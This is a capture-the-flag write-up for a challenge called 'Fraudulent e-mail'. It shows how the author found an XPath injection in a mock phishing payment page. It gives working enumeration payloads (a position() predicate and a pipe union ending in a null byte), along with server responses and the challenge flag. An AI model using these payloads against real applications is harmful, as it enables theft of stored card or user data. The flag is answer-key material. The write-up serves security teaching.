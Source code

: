 # Fraudulent e-mail

Hi, packet inspector,

we have a apparently problem with some fraudulent payment gateway (see forwarded e-mail). We suspect that many of our
customers have come across this scam.

Identifify all card numbers entered into the fraudulent webpage (we have to report incident and its details to
CSIRT-TCC).

Download [fraudulent e-mail](fraudulent_e-mail.zip) (MD5 checksum `94c7696bed436cd63a490de4008d2022`).

May the Packet be with you!

---

The email contains a link
to http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8

Visiting the link brings us to a phishing website. I entered random data.

![](portal.png)

There is a client side validation which prevents you from sending invalid data so either disable JS or use some
HTTP client or proxy.

I started to fuzz the inputs and got lucky with `card-number=1111111111111111aaa`.
Server responded with:

```
<b>Warning</b>:  SimpleXMLElement::xpath(): Invalid predicate in <b>/var/www/html/index.php</b> on line <b>82</b><br />
```

Looks like an **XPath injection** vulnerability.

Let's try some interesting predicates like `card-number=*`:

```
This card 4556-1329-8889-9614 is broken.
```

Okay, that's promising. The asterisk got evaluated. Now we just need to enumerate all the cards.

My guess is that the database might look something similar to this:

```xml

<cards>
    <card number="8888999977771111" holder-name="John" cvv="889"/>
    <card number="8888999977779566" holder-name="Karl" cvv="859"/>
</cards>
```

And the XPath query something like this:

```
/cards/card[@number= ${args.NUMBER} ]
```

I found two different payloads how to enumerate the cards:

- `a or position()=5` - using `position()` function
    - full query `/cards/card[@number=a or position()=5]`
- `a] | /*/*[5]NULL_BYTE` - using pipe (`|`) operator to combine expressions and [terminating the payload with NULL_BYTE](https://www.thehacker.recipes/web/inputs/null-byte-injection)
    - full query `/cards/card[@number=a] | /*/*[5]NULL_BYTE]`

The trick is to keep enumerating the cards until you find the flag. Some cards have missing
numbers so just don't stop and keep enumerating. The correct position is `128`:

```html

<div class="alert alert-danger" role="alert">
    <p>This card <strong>FLAG{0BF0-RREd-vAK3-1Ayi}</strong> is broken.</p>
    <p>Please enter <strong>your another card number</strong>!</p>
</div>
```
